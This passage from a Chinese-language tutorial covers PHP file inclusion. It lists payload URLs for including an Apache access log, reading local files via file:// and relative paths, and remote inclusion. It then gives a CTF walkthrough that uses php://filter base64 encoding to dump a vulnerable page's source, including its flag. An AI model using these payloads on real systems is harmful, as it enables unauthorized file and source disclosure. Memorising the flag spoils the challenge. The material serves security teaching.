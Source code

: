 Payload：

> 
<pre>http://localhost/include/file.php?file=../../apache/logs/access.log</pre>


 4、file://

用于访问本地文件系统，通常用来**读取本地文件**的且不受`allow_url_fopen`与`allow_url_include`的影响。`include()/require()/include_once()/require_once()`参数可控的情况下，如导入为非`.php`文件，则仍按照php语法进行解析，这是`include()`函数所决定的。

文件的相对路径和文件名

> 
<pre>http://127.0.0.1/include2.php?file=./phpinfo.txt</pre>


file://[文件的绝对路径和文件名]

> 
<pre>http://127.0.0.1/include2.php?file=file://D:\phpStudy\PHPTutorial\WWW\phpinfo.txt</pre>


http：//网络路径和文件名

> 
<pre>http://127.0.0.1/include2.php?file=http://127.0.0.1/phpinfo.txt</pre>


 

实操一题：

某题目

check me 点击后就是这样

不晓得包含的哪些配置文件

`http://4.chinalover.sinaapp.com/web7/index.php?file=php://filter/read=convert.base64-encode/resource=index.php`

读源码，回显的源码经过base64编码，所以要解码后才能读到源码，flag就在里面了

> 
<pre>&lt;html&gt;
&lt;title&gt;asdf&lt;/title&gt;    
&lt;?php
error_reporting(0);
if(!$_GET[file]){echo '&lt;a href="./index.php?file=show.php"&gt;click me? no&lt;/a&gt;';}
$file=$_GET['file'];
if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
echo "Oh no!";
exit();
}
include($file); 
//flag:nctf{edulcni_elif_lacol_si_siht}
?&gt;
&lt;/html&gt;</pre>


 